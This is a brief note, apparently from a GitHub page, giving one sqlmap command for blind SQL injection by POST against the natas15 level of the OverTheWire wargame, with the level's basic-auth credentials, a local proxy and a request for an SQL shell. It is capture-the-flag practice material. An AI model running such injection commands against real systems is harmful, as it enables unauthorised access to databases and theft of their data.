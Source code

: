 ## sqlmap

Blind SQL injection example with POST

    $ python2 sqlmap.py -v3 \
             -u 'http://natas15.natas.labs.overthewire.org/index.php' \
             --auth-type=basic --auth-cred="natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J" \
             --proxy="http://127.0.0.1:8080" \
             --data "username=" -p "username" \
             --level 4 --risk 3 --string "exists" \
             --technique B --prefix '" ' --suffix ' AND ""="' \
             --sql-shell
